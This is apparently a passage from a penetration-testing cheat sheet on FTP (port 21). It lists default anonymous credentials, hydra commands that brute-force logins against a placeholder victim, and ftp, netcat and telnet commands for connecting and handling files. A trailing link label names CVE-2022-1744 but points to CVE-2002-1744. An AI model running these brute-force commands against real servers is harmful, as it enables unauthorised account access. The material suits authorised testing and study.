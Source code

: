 
# 2 Services

This section includes enumeration, exploitation, and interaction techniques for common services you might discover through scanning.



## 2.1 FTP - 21

**Anonymous Logins:**

These are checked by default with Nmap.

- anonymous : anonymous
- anonymous :
- ftp : ftp


**Bruteforce logins**:

```sh
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://VICTIM_IP
hydra -P /usr/share/wordlists/rockyou.txt -l USER ftp://VICTIM_IP
hydra -V -f -P /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt -l USERNAME ftp://VICTIM_IP
```


**Connecting & Interaction:**

```sh
# ways to connect, in order of preference
ftp -A VICTIM_IP # '-A' forces active mode (not passive)
nc -nvC VICTIM_IP 21
telnet VICTIM_IP 21

# connect in your filesystem explorer:
# (Chrome and Firefox removed FTP support)
ftp://anonymous:anonymous@VICTIM_IP

# interaction using the 'ftp' app
ftp> anonymous # username
ftp> anonymous # password
ftp> help # show list of supported commands
ftp> help CMD # show command-specific help
ftp> binary # set transmission to binary instead of ascii
ftp> ascii # set transmission to ascii instead of binary
ftp> ls -a # list all files (even hidden) (yes, they could be hidden)
ftp> cd DIR # change remote directory
ftp> lcd DIR # change local directory
ftp> pwd # print working directory
ftp> cdup  # change to remote parent directory
ftp> mkdir DIR # create directory
ftp> get FILE [NEWNAME] # download file to kali [and save as NEWNAME]
ftp> mget FILE1 FILE2 ... # get multiple files
ftp> put FILE [NEWNAME] # upload local file to FTP server [and save as NEWNAME]
ftp> mput FILE1 FILE2 ... # put multiple files
ftp> rename OLD NEW # rename remote file
ftp> delete FILE # delete remote file
ftp> mdelete FILE1 FILE2 ... # multiple delete remote files
ftp> mdelete *.txt # delete multiple files matching glob pattern
ftp> bye # exit, quit - all exit ftp connection

# interaction with netcat/telnet:
USER anonymous
PASS anonymous
```

[cve-2022-1744]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1744